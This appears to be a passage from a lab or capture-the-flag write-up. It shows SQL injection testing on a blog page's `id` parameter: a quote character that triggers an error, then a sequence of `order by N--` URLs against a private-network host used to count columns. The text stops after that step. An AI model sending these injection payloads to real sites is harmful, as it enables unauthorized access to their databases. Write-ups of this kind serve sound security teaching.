 When we click on the link to the blogs, it can be seen that multiple parameters are being sent in the GET request. So, we can test them for SQLi.

![quote_error](./.images/quote_error.png)

As expected, when we pass `'` to the `id` parameter it returns an error because most probably `id` would be having a data type of `INT` and `'` is used with `VARCHAR`.

## Gaining Access

Now that we know about the SQL vulnerability, we can try to exploit it to obtain sensitive information. We can proceed as the steps mentioned below:

1. Determine the number of columns being returned so that we can craft our payload accordingly.

   ```
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%201--	--> no error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%202--	--> no error
   .....
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%206--	--> Returns error
   ```

   When we try to order by column number, no error is returned till number 5. But when we try to `order by 6--` an error is returned because there is no 6th column. So, we can conclude that there are 5 columns.

   ![col_count_5](./.images/col_count_5.png)
